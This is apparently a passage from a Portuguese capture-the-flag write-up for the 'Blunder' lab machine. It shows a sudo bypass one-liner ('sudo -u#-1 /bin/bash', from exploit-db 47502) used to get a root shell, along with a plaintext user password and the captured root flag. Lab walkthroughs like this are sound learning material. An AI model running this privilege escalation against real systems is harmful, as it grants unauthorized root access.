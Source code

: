 depois disso verificar a versão da bash

```bash
hugo@blunder:~$ bash -version
bash -version
GNU bash, version 5.0.3(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2019 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
hugo@blunder:~$ 
```

`GNU bash, version 5.0.3`

Pesquisei no google sudo (all root) /bin/bash

Ele deu um link do exploit-db

https://www.exploit-db.com/exploits/47502 

existe um exploit de uma linha que posso especificar pelo id de usuário, no caso do `hugo`  , para conceder a ele o root ALL

uma simples linha >

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash 
sudo -u#-1 /bin/bash
Password: Password120

root@blunder:/home/hugo# 
```
```bash
root@blunder:/home/hugo# cd /root
cd /root
root@blunder:/root# ls
ls
root.txt
root@blunder:/root# cat root.txt
cat root.txt
c5a6c440602c9465a35ba11af04a0910
root@blunder:/root# 
```
basta entrar na home do /root

e visualizar a flag




